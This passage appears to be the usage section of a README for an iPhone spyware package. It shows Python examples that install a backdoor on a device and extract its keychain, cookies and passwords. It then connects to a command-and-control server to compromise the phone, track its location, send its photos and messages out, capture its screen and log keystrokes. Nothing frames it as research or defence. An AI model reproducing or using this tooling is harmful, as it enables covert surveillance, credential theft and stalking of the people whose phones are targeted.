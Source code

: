 ### Extract Specific Data

```python
from iphone_remote_access import iPhoneBackdoorInstaller

installer = iPhoneBackdoorInstaller("DEVICE_UDID")
credentials = installer.extract_credentials()

# Access extracted data
print(credentials['keychain'])
print(credentials['cookies'])
print(credentials['passwords'])
```

---

## Phase 4: Remote Control Operations

### Initialize Remote Control

```python
import asyncio
from iphone_remote_access import iPhoneRemoteControl

async def main():
    # Initialize controller
    controller = iPhoneRemoteControl(
        c2_server="https://your-c2-domain.com",
        encryption_key="your-encryption-key"
    )
    
    # Compromise device
    await controller.compromise_device("DEVICE_UDID")
    
    # Execute commands
    location = await controller.track_location("DEVICE_UDID")
    print(f"Device location: {location}")
    
    # Exfiltrate data
    await controller.exfiltrate_photos("DEVICE_UDID")
    await controller.exfiltrate_messages("DEVICE_UDID")
    
    # Capture screenshot
    screenshot = await controller.capture_screen("DEVICE_UDID")
    
    # Start keylogging
    await controller.keylog("DEVICE_UDID", duration=7200)
    
    await controller.close()

asyncio.run(main())
```
